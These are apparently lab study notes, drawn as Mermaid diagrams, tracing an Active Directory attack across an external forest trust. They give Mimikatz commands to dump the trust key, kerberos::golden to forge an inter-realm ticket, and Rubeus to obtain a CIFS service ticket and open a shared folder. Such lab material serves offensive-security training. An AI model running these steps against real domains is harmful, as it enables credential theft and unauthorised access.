


# eurocorp-dc — External Forest Trust & Referral Ticket

## Attack Path

```mermaid
flowchart TD
    START(["🔑 Enterprise Admin\nmoneycorp.local"])

    subgraph enum_trust["Phase 1: Enumerate External Trust"]
        ET1["Enumerate forest trusts\nGet-ADTrust -Filter *\nGet-ForestTrust\nGet-DomainTrust -Domain moneycorp.local"]
        ET2["moneycorp ↔ eurocorp.local\nExternal (non-transitive) trust\nSID filtering IS enforced\n(cross-forest)"]
        ET3["Cannot use SID History\nacross external/forest trust\nSID filtering blocks ExtraSIDs"]
        ET4["BUT: Can use referral ticket\nfor resources explicitly shared"]
    end

    subgraph referral["Path: External Trust Referral Ticket"]
        R1["Extract external trust key\nInvoke-Mimikatz\nlsadump::trust /patch (on mcorp-dc)\nOR lsadump::dcsync /user:eurocorp$ (trust account)"]
        R2["Identify shared resources\nGet-ADObject -Filter * on eurocorp\nEnumerate SMB shares:\nSharedwithDCorp share on eurocorp-dc"]
        R3["Forge inter-realm TGT\nkerberos::golden\n/user:Administrator\n/domain:moneycorp.local\n/sid:MCORP_DOMAIN_SID\n/rc4:EXTERNAL_TRUST_KEY\n/service:krbtgt\n/target:eurocorp.local\n/ticket:eurocorp_trust.kirbi"]
        R4["Request TGS for target service\nRubeus.exe asktgs\n/ticket:eurocorp_trust.kirbi\n/service:CIFS/eurocorp-dc.eurocorp.local\n/ptt"]
        R5["Access SharedwithDCorp share\ndir \\\\eurocorp-dc.eurocorp.local\\SharedwithDCorp"]
        R6["✅ Access to eurocorp.local resource\nSharedwithDCorp contents"]
    end

    subgraph note["Important Notes"]
        N1["SID Filtering blocks\nEnterprise Admin privilege escalation\nacross external trust"]
        N2["Only access resources\nexplicitly accessible from\ntrusted domain accounts"]
        N3["Full eurocorp forest compromise\nrequires separate attack vector\n(AD CS, Kerberoasting eurocorp accounts, etc.)"]
    end

    START --> ET1 --> ET2 --> ET3 --> ET4
    ET4 --> R1 --> R2 --> R3 --> R4 --> R5 --> R6
    R6 --> N1 & N2 & N3

    style START fill:#4CAF50,color:#fff
    style R6 fill:#FF9800,color:#fff
    style N1 fill:#9C27B0,color:#fff
    style N3 fill:#2196F3,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((eurocorp-dc))
    External Trust
      Type
        Forest trust / External trust
        Non-transitive
        One-way or bidirectional
      SID Filtering
        ENABLED on external trusts
        Blocks SID History attacks
        Cannot escalate via ExtraSIDs
    Referral Ticket Attack
      Extract trust key
        lsadump::trust /patch
        lsadump::dcsync for trust account
        External trust key (RC4)
      Find shared resources
        SharedwithDCorp share
        Get-ADObject enumeration
        SMB share enumeration
      Forge inter-realm TGT
        kerberos::golden
        /target:eurocorp.local
        /service:krbtgt
      Get TGS
        Rubeus asktgs
        CIFS/eurocorp-dc
        Access specific share
    Limitations
      Cannot become EA in eurocorp
        SID filtering active
      Can only access
        Explicitly shared resources
        Resources trusting dollarcorp users
    eu-sqlx (bonus)
      SQL link from dcorp-mgmt
      Different attack path
      via SQL linked servers
```
